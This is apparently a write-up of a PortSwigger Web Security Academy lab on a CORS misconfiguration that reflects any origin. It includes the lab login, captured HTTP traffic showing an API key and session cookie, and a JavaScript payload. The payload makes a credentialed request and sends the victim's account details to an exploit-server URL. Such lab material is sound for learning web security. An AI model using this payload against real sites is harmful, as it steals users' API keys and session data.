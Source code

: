 # PortSwigger CORS Lab 1: CORS vulnerability with basic origin reflection

## Instructions

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploit

There is a API key leaked on the `accountDetails` endpoint

![](../../../assets/screenshots/cors/Pasted%20image%2020250801141125.png)
Looking at this in the proxy shows the request and response.

```
GET /accountDetails HTTP/1.1
Host: 0a6300590490f183806703ee00fc00ea.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/my-account?id=wiener
Connection: keep-alive
Cookie: session=vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: magenta
Priority: u=4


```

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 149

{
	"username": "wiener",
	"email": "",
	"apikey": "o5BObzi7TrabVjCMQedPZO3Zhwams76K",
	"sessions": [
		"vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O"
	]
}
```

If we send another request with an arbitrary Origin header, we see that the arbitrary value is reflected in the `Access-Control-Allow-Origin` response header. This means that a site on any origin can make requests to the vulnerable site and read the responses. 

![](../../../assets/screenshots/cors/Pasted%20image%2020250801141507.png)

We can use the payload from Payloadsallthethings at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#origin-reflection

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
	location='//exploit-0a6500ab0499f17080cb0247015a00ab.exploit-server.net/log?key='+this.responseText; 
};
```

Put this in the exploit server

![](../../../assets/screenshots/cors/Pasted%20image%2020250801141839.png)

After clicking "Deliver exploit to victim", we can check the access log and find the administrator's API key.

![](../../../assets/screenshots/cors/Pasted%20image%2020250801141937.png)

After submitting the admin's API key we finish the lab. 